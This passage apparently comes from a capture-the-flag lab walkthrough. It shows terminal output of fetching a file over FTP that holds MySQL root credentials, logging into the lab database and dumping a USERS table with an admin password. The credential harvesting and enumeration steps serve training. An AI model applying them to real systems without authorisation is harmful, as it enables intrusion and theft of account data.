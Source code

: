 file.txt

- What is the password after enumerating the database?

  **Solution:**

  ~~~bash
  ftp> recv file.txt
  local: file.txt remote: file.txt
  200 PORT command successful. Consider using PASV.
  150 Opening BINARY mode data connection for file.txt (39 bytes).
  226 Transfer complete.
  39 bytes received in 0.00 secs (21.7386 kB/s)
  $ cat file.txt 
  remember to wipe mysql:
  root
  ff912ABD*
  $ mysql -u root -h 10.10.123.193 -p
  Enter password: 
  Welcome to the MariaDB monitor.  Commands end with ; or \g.
  Your MySQL connection id is 7
  Server version: 5.7.28 MySQL Community Server (GPL)
  
  Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
  
  Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
  
  MySQL [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | information_schema |
  | data               |
  | mysql              |
  | performance_schema |
  | sys                |
  +--------------------+
  5 rows in set (0.040 sec)
  
  MySQL [(none)]> use data
  Reading table information for completion of table and column names
  You can turn off this feature to get a quicker startup with -A
  MySQL [data]> show tables;
  +----------------+
  | Tables_in_data |
  +----------------+
  | USERS          |
  +----------------+
  1 row in set (0.040 sec)
  
  MySQL [data]> SELECT * FROM USERS;
  +-------+--------------+
  | name  | password     |
  +-------+--------------+
  | admin | bestpassword |
  +-------+--------------+
  1 row in set (0.296 sec)
  ~~~
